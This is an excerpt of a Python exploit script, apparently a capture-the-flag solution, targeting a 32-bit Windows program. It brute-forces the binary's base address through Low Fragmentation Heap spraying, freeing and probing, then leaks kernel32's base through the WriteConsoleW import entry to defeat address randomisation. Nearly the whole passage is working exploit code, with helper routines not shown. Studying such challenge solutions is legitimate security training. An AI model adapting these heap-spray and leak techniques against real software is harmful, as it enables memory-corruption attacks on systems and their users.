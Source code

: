```py

    # we can be 2x faster, but oh well it still works :)
    for i in range(0x1, 0x10000):
        try:
            try_base = i * 0x10000
            log.info('Trying base {:08x}'.format(try_base))

            # 1. saturate LFH
            alternative = False
            spray_payload = 'A'*0x1c + p32(try_base + 0x00017b00)[:-1] + '\n'
            if '\n' in spray_payload[:-1]:
                alternative = True
                spray_payload = 'A'*0x1c + p32(try_base + 0x00007500)[:-1] + '\n'
                if '\n' in spray_payload[:-1]:  # 0x0a??????-like bases, let's just :pray:
                    log.info('Skipping base {:08x}'.format(try_base))
                    continue

            run()
            sel2()

            spray(0x18 // 2, spray_payload)

            # 2. free all at LFH
            sel3_free()

            # 3. try probing
            # read base + 0x00017B00 => if hit, yields match_1
            # read base + 0x00007500 => if hit, yields match_2
            res = sel1('\n')
            if (not alternative and res == match_1) or (alternative and res == match_2):
                return try_base

            # else, we've probed something else but got different results (heap, other dlls, etc.)
            log.info("Misprobe")
        except KeyboardInterrupt:
            break
        except:
            pass
        finally:
            destroy()
    
    return None

def leak_k32_base():
    # kernel32 leak
    run()
    sel2()

    idt_ptr = binary.base + 0x15000

    spray(0x18 // 2, 'A'*0x1c + p32(idt_ptr)[:-1] + '\n')
    sel3_free()

    res = sel1('\n')[:4]
    WriteConsoleW = u32(res.ljust(4, '\0'))
    log.info('WriteConsoleW: {:08x}'.format(WriteConsoleW))

    k32_base = WriteConsoleW - k32.symbols['WriteConsoleW']
    assert k32_base & 0xffff == 0

    destroy()

    return k32_base
```